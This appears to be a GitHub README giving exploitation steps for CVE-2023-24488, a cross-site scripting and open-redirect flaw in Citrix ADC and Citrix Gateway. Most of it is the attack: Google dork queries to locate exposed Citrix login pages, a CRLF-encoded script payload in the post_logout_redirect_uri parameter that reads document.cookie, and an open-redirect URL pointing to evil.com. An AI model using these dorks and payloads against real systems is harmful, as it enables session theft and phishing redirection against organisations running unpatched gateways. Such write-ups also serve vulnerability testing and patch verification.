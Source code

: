 # CVE-2023–24488 Citrix Gateway XSS & Open Redirection 

## Description
Cross site scripting vulnerability in Citrix ADC and Citrix Gateway in allows and attacker to perform cross site scripting

### How to exploit
1. Google dork
<html>
<i>inurl:/LogonPoint/tmindex.html</i>
<i>inurl:/vpn/index.html</i> 
</html>

2. Navigate to the endpoint
Example: https://example.com/logon/LogonPoint/tmindex.html

3. Modify the URL by adding the payload and hit enter

Example: https://example.com/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert(document.cookie)%3C/script%3E

4. Once XSS is confirmed, you can check for open-redirection too, just by adding the target domain in the “post_logout_redirect_uri” parameter.

Example: https://example.com/oauth/idp/logout?post_logout_redirect_uri=https://evil.com